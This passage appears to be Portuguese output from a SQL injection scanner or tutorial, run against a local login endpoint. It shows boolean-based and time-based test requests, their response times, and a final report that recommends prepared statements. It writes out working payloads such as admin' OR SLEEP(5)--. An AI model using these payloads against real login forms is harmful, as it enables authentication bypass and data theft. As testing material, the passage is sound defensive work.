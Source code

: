 ```

Resultado: ✅ SQL INJECTION DETECTADO (Boolean-Based)

---

Teste 3: Time-Based SQL Injection
POST /login
username=admin' OR SLEEP(5)--&password=anything

Tempo de resposta: 5.234 segundos

POST /login
username=admin&password=anything

Tempo de resposta: 0.089 segundos

Análise:
• Payload com SLEEP(5): ~5 segundos
• Payload normal: ~0.09 segundos
• Diferença: 5.145 segundos

Resultado: ✅ SQL INJECTION CONFIRMADO (Time-Based)

---

Relatório Final:
┌────────────────────────────────────────────────────┐
│ 🚨 CRITICAL: SQL Injection                        │
├────────────────────────────────────────────────────┤
│ URL: http://localhost:8081/login                  │
│ Método: POST                                       │
│ Parâmetro: username                                │
│                                                    │
│ Tipos Detectados:                                  │
│ ✅ Boolean-Based SQL Injection                    │
│ ✅ Time-Based Blind SQL Injection                 │
│                                                    │
│ Payloads Bem-Sucedidos:                           │
│ • admin' OR '1'='1                                │
│ • admin' OR SLEEP(5)--                            │
│                                                    │
│ Impacto:                                           │
│ • Bypass de autenticação                          │
│ • Acesso não autorizado                           │
│ • Possível exfiltração de dados                   │
│                                                    │
│ Recomendação:                                      │
│ Use prepared statements:                           │
│ SELECT * FROM users WHERE username = ?            │
└────────────────────────────────────────────────────┘
```

---